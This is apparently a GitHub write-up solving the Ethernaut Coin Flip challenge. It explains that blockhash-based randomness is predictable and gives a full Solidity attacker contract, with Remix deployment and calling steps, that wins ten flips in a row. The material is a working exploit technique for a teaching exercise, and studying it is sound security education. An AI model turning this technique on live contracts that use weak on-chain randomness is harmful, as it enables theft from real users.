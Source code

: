# Coin Flip Ethernaut Challenge

## Overview of the Vulnerability

The CoinFlip challenge is designed to demonstrate how contracts relying on predictable randomness can be exploited. The original CoinFlip contract determines the outcome of a coin flip using the blockhash of the previous block combined with a constant factor. Since blockhash is publicly accessible, an attacker can compute the expected outcome in advance and always make the correct guess. This allows them to win 10 consecutive flips and pass the challenge.

## Steps to Solve the Challenge
1. Get the CoinFlip Contract Address
Go to the Ethernaut challenge page for the Coin Flip level.

Open your browser's developer console (usually by pressing F12).

Run the following command in the console to get the address of the CoinFlip contract:

```js 
contract.address
```
Copy this address. You will need it to deploy your attacking contract.

2. Deploy the CoinFlipAttacker Contract in Remix
Open Remix (https://remix.ethereum.org/).
Create a new file (e.g., CoinFlipAttacker.sol) and paste the attacking contract code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttacker {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    ICoinFlip public coinFlip;

    constructor(address _coinFlipAddress) {
        coinFlip = ICoinFlip(_coinFlipAddress);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert("Cannot call attack twice in the same block");
        }

        lastHash = blockValue;
        uint256 coinFlipResult = blockValue / FACTOR;
        bool guess = coinFlipResult == 1 ? true : false;

        bool result = coinFlip.flip(guess);
        if (result) {
            consecutiveWins++;
        } else {
            consecutiveWins = 0;
        }
    }
}
```
Compile the contract:

Go to the "Solidity Compiler" tab in Remix.

Select the appropriate compiler version (e.g., 0.8.0).

Click "Compile CoinFlipAttacker.sol".

Deploy the contract:

Go to the "Deploy & Run Transactions" tab in Remix.

Select "Injected Web3" as the environment (this connects Remix to your MetaMask wallet, which should be connected to the Ethernaut testnet).

Paste the CoinFlip contract address (from Step 1) into the "Deploy" field.

Click "Deploy".

3. Call the attack Function
After deploying the CoinFlipAttacker contract, you will see it in the "Deployed Contracts" section in Remix.

Click on the attack function to call it.

Wait for the transaction to be mined.

4. Repeat the attack Function Call
You need to call the attack function 10 times, but you must wait for a new block to be mined between each call.

In Remix, you can manually call the function and wait ~15 seconds between each call to ensure a new block is mined.

Alternatively, you can automate this process using a script (see the Hardhat script example in my previous response).

5. Verify the Result
After calling the attack function 10 times, go back to the Ethernaut challenge page.

Check the consecutiveWins variable in the CoinFlip contract (you can do this in the console by running await contract.consecutiveWins()).

If the value is 10, submit the instance to complete the challenge.

Troubleshooting
If you encounter issues:

Check the CoinFlip Address:

Ensure you are using the correct address of the CoinFlip contract in the Ethernaut challenge.

Wait for New Blocks:

If you call the attack function multiple times in the same block, it will revert. Make sure to wait for a new block between each call.

Gas Limit:

Ensure you have enough gas when calling the attack function. In Remix, you can increase the gas limit manually.

Check the Console:

Use the browser console on the Ethernaut page to debug. For example, you can check the consecutiveWins value after each call to ensure it is incrementing.